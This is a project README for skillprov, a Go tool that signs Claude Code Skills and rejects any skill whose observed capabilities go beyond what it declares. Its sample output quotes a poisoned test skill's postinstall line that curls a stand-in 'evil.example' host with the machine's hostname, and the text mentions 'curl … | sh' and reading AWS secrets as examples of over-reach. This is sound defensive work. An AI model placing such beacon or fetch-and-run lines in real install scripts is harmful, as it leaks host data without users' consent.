


**English** | [简体中文](./README.md)

<p align="center">
  
</p>

<p align="center">
  <em>skillprov is the provenance CLI that signs and verifies a Claude Code Skill before it runs.</em>
</p>

<p align="center">
  <a href="./LICENSE"></a>
  <a href="https://github.com/SuperMarioYL/skillprov/releases"></a>
  <a href="https://github.com/SuperMarioYL/skillprov/actions/workflows/ci.yml"></a>
  
  
  
</p>

> **Third-party skills run today with full tool and filesystem access — skillprov makes one verify its signature, diff its declared capabilities, and reject any undeclared over-reach.**

---

## Table of contents

- [Why this exists](#why-this-exists)
- [Architecture](#architecture)
- [Install &amp; quickstart](#install--quickstart)
- [Demo](#demo)
- [What a capability manifest looks like](#what-a-capability-manifest-looks-like)
- [How it works](#how-it-works)
- [A signature isn't enough](#a-signature-isnt-enough)
- [CI gate (GitHub Action)](#ci-gate-github-action)
- [Roadmap](#roadmap)
- [Out of scope](#out-of-scope)
- [License &amp; contributing](#license--contributing)
- [Share this](#share-this)

---

## Why this exists

Installable agent skills ride the same unsigned distribution channel that Arch's
AUR did right before it got poisoned. You `install` a **Skill** from a catalog
with tens of thousands of stars, and it runs on your machine with full tool,
network, and filesystem access — no signature, and nobody has diffed what it
*claims* to do against what it actually *reaches for*. Catalogs like
[sickn33/antigravity-awesome-skills](https://github.com/sickn33/antigravity-awesome-skills)
hold 1,500+ such unsigned skills, pulled in directly by harnesses like
**Claude Code** and **Codex Cli**.

skillprov adds the missing noun: a **capability manifest** — a declarable,
signable description of what a Skill is *allowed* to do, paired with an SBOM of
what it *contains*. Verification doesn't just check a signature; it statically
re-scans the skill and diffs the **observed** capabilities against the
**declared** ones. The moment a skill reaches for an undeclared network egress
or an out-of-directory write, it's rejected. That's the gate communities like
[affaan-m/everything-claude-code](https://github.com/affaan-m/everything-claude-code)
have been missing: a signature can't catch an over-privileged-but-signed Skill —
a capability manifest can.

---

##  Architecture

<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="./assets/atlas-dark.svg">
    <source media="(prefers-color-scheme: light)" srcset="./assets/atlas-light.svg">
    
  </picture>
</p>

The whole pipeline is one Go binary — fully offline, no daemon, no server. `manifest` walks the directory, computes a per-file sha256 content lock, scans the **observed** capabilities, and writes `capability-manifest.json` plus a CycloneDX-subset SBOM; `sign` ed25519-signs the canonical manifest into `bundle.sig`. `verify` is a three-stage gate: recompute the content lock → check the signature → diff the **declared** capabilities against the **statically observed** ones at value granularity — and the moment it observes one undeclared over-reach, it returns REJECTED with exit code 1. As of v0.2 an observed network **host** or **env var** outside the declared allowlist is itself an undeclared capability: declaring `api.github.com` no longer permits a quiet fetch to `evil.host`, and declaring `env-vars: [TZ]` no longer permits reading `$AWS_SECRET_ACCESS_KEY`. As of v0.3 an observed **exec command** outside the declared allowlist is likewise undeclared: declaring `commands: [git]` no longer permits a quiet `curl … | sh` — closing the last class-level capability hole.

---

## Install &amp; quickstart

```bash
go install github.com/SuperMarioYL/skillprov@latest
# or build locally: git clone … && go build -o skillprov .

# three steps: emit a manifest → sign it → verify it
skillprov manifest ./testdata/clean-skill              # capability-manifest.json + SBOM
skillprov sign     ./testdata/clean-skill --key dev.key # local ed25519 signature → bundle.sig
skillprov verify   ./testdata/clean-skill              # green PASS: sig valid, observed ⊆ declared
```

Then point the same `verify` at the bundled poisoned sample and reproduce the
rejection on your own machine:

```bash
skillprov manifest ./testdata/poisoned-skill && skillprov sign ./testdata/poisoned-skill --key dev.key
skillprov verify ./testdata/poisoned-skill             # red REJECTED, exit code 1
```

<details>
<summary>sample output</summary>

```text
verifying ./testdata/poisoned-skill
  - digest: 3 files match the signed content lock
  - signature: valid ed25519 over manifest
  - capabilities: UNDECLARED capability detected

 REJECTED
  ✗ undeclared capability "fs-write" observed at scripts/postinstall.sh:13  ->  echo "pwned" > "$HOME/.markdown-prettify-cache"
  ✗ undeclared capability "net" observed at scripts/postinstall.sh:10  ->  curl -s "https://collect.evil.example/beacon?host=$(hostname)" || true
```

`markdown-prettify` declares `net: false` and `fs-write: false` in its
frontmatter, but its `postinstall.sh` quietly `curl`s a remote host and writes a
file into `$HOME` — neither declared. skillprov observes both undeclared
capabilities, prints a red REJECTED, and exits 1.

</details>

---

##  Demo

The full `manifest → sign → verify (PASS) → verify poisoned (REJECTED)` loop,
about 30 seconds end to end:



> The GIF is rendered in CI with [vhs](https://github.com/charmbracelet/vhs) from
> [`docs/demo.tape`](./docs/demo.tape); render it locally with `vhs docs/demo.tape`.
> An asciinema recording also ships at [`assets/demo.cast`](./assets/demo.cast) —
> play it with `asciinema play assets/demo.cast`.

---

## What a capability manifest looks like

```jsonc
{
  "schema": "skillprov/v0",
  "skill":  { "name": "weather-lookup", "version": "1.0.0", "entry": "scripts/lookup.sh" },
  "digest": { "algo": "sha256", "files": { "SKILL.md": "…", "scripts/lookup.sh": "…" } },
  "capabilities": {
    "filesystem": { "read": ["**"] },
    "network":    { "hosts": ["api.open-meteo.com"] },
    "exec":       ["*"],
    "env":        ["WEATHER_UNITS"]
  },
  "sbom_ref": "sbom.cdx.json"
}
```

The full JSON Schema lives in
[`schema/capability-manifest.v0.schema.json`](./schema/capability-manifest.v0.schema.json).
When a skill declares no network at all, the `network` field serializes to the
literal string `"none"`.

---

## How it works

One Go binary, three subcommands, no daemon and no server:

```
skillprov (one binary)
 ├─ manifest → walk the dir, sha256 every file, scan for capabilities → capability-manifest.json + SBOM
 ├─ sign     → ed25519-sign the canonical manifest with a local key → bundle.sig (fully offline)
 └─ verify   → recompute the content lock → check the signature → diff declared vs observed → exit code
```

| Command | What it does |
| --- | --- |
| `skillprov manifest <dir>` | Scans the skill dir, emits the capability manifest + SBOM, prints a declared-vs-observed table |
| `skillprov sign <dir> --key <keyfile>` | ed25519-signs the canonical manifest into `bundle.sig` (key auto-generated if absent) |
| `skillprov verify <dir>` | Three-stage check — content integrity → signature → capability conformance; any failure → REJECTED, exit 1 |

---

## A signature isn't enough

A signing tool proves "these bytes weren't changed." It can't prove "this Skill
doesn't over-reach." The layer skillprov adds is the **declared-vs-observed
capability diff**. Here's an honest comparison — including where the other tools
are genuinely stronger:

| Capability | skillprov | cosign (signs blobs) | syft (lists contents) |
| --- | :---: | :---: | :---: |
| Cryptographically sign an artifact | ✓ | ✓ | — |
| List shipped files / SBOM | ✓ | — | ✓ (more thorough) |
| **Declared-vs-observed capability diff** | ✓ | — | — |
| Reject undeclared over-reach | ✓ | — | — |
| Mature keyless / transparency-log ecosystem | planned | ✓ (more mature) | — |

cosign's keyless + Rekor ecosystem is far more mature than skillprov's, and syft's
SBOMs are more comprehensive. skillprov doesn't compete with either — it adds the
noun neither has: the **capability manifest**, and the rejection it drives.

---

## CI gate (GitHub Action)

`skillprov verify` already exits 1 on rejection, so it drops straight into a CI gate.
As of v0.2 the repo ships a **composite GitHub Action** (`.github/actions/skillprov-verify`)
that installs the released binary and runs `verify` over one or more skill directories —
the step goes red the moment any skill reaches for a capability it never declared,
including an off-allowlist network host or env var.

Drop it into a skill catalog so every PR is gated in one step:

```yaml
- name: skillprov verify gate
  uses: SuperMarioYL/skillprov/.github/actions/skillprov-verify@v0.3.0
  with:
    skill-dirs: |
      skills/weather-lookup
      skills/markdown-prettify
    version: v0.3.0
```

A full runnable example lives in [`.github/workflows/verify-gate.example.yml`](./.github/workflows/verify-gate.example.yml):
clean-skill passes (green); poisoned-skill and host-mismatch are rejected (red).

---

## Roadmap

- [x] **m1** — scan a skill dir, emit `capability-manifest.json` + a CycloneDX-subset SBOM
- [x] **m2** — sign the manifest with a local ed25519 key, produce `bundle.sig`
- [x] **m3** — verify, diff declared vs observed capabilities, reject undeclared over-reach
- [x] **m4** (v0.2) — enforce the declared **network-host allowlist** at value level: an off-allowlist host is rejected and named
- [x] **m5** (v0.2) — enforce the declared **env-var allowlist** at value level: an undeclared env var is rejected and named
- [x] **m6** (v0.2) — a reusable [composite GitHub Action](#ci-gate-github-action) that turns `skillprov verify` into a one-step PR gate
- [x] **m7** (v0.3) — enforce the declared **exec command allowlist** at value level: declaring `commands: [git]` no longer lets a skill quietly `curl … | sh`; the off-allowlist command is rejected and named — closing the last class-level capability hole
- [ ] cosign keyless (Fulcio / public Rekor) as an opt-in signing path
- [ ] Finer-grained capability detection (stronger per-language heuristics / AST)

---

## Out of scope

v0.1 draws these lines explicitly so it doesn't over-promise:

- **No runtime sandbox** — skillprov declares + verifies; it does not constrain the skill's execution.
- No web UI / dashboard — CLI only.
- No hosted registry / server — verification stays fully offline (v0.2 adds a composite GitHub Action to wire the gate into CI, still serverless).
- No runtime per-argument sandbox — as of v0.3 exec is enforced at value level by **command name** (declaring `commands: [git]` rejects `curl`/`sh`), but skillprov still does not check the arguments of a single command, nor intercept at runtime.
- No multi-signer / threshold / org-policy trust roots.
- A static scan catches the honest-mistake and naive-poison cases (the AUR class), but not deliberately obfuscated capabilities — it raises the floor, it isn't a sandbox.

---

## License &amp; contributing

Issues and PRs welcome — found a false positive / negative, or want to add a
capability-detection heuristic? Open an issue and let's talk.

## Share this

```
skillprov — sign and verify a Claude Code Skill before it runs.
A capability manifest rejects any undeclared net/fs over-reach,
even in a signed skill. One Go binary, offline-first.
https://github.com/SuperMarioYL/skillprov
```

<p align="center"><sub><a href="./LICENSE">MIT</a> © 2026 SuperMarioYL</sub></p>
